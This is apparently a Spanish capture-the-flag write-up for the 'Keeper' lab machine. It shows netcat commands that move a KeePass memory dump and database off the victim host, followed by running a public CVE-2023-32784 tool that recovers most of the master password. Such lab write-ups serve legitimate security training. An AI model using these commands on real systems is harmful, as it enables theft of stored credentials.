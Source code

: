 # [[Tratamiento de la TTY]]

------
# [[Herramientas-Comandos/unzip]] y nos pasamos los archivos a nuestra maquina con [[Netcat]]

En el escritorio del usuario *Inogaard* Encontramos un archivo *RT30000.zip* asi que lo vamos a descomprimir con [[Herramientas-Comandos/unzip]] usando el comando `unzip RT30000.zip`

![[Imagenes/Keeper13.png]]


Ahora nos vamos a pasar los archivos a nuestra maquina, asi que nos ponemos en escucha con [[Netcat]] desde la maquina victima

```shell
nc -nlvp 5000 < KeePassDumpFull.dmp
nc -nlvp 5000 < passcodes.kdbx
```

![[Keeper17.png]]

Y desde nuestra maquina vamos a entablar la conexion
```shell
nc 10.10.11.227 5000 > KeePassDumpFull.dmp
nc 10.10.11.227 5000 > passcodes.kdbx
```
Aclaracion: Despues de unos segundos hay que cortar la conexion con CTRL + C, por que si no queda activa

![[Keeper16.png]]

Ya tenemos los archivos en nuestra maquina

--------
# [[CVE-2023-32784]]

[Proyecto keepass_dump](https://github.com/z-jxy/keepass_dump) 
Vamos a clonar el proyecto con [[git clone]] usando el comando ``git clone https://github.com/z-jxy/keepass_dump``
![[Keeper18.png]]

Ahora vamos a mover el archivo *KeePassDumpFull.dmp* a la carpeta del proyecto con [[mv]] usando el comando ``mv ~/Desktop/Keeper/content/KeePassDumpFull.dmp .``

Ejecutamos el script
```
python3 keepass_dump.py -f KeePassDumpFull.dmp
```

![[Keeper19.png]]
Y en este caso nos dumpea la contraseña con un caracter desconocido. *{UNKNOWN}dgrd med flde*

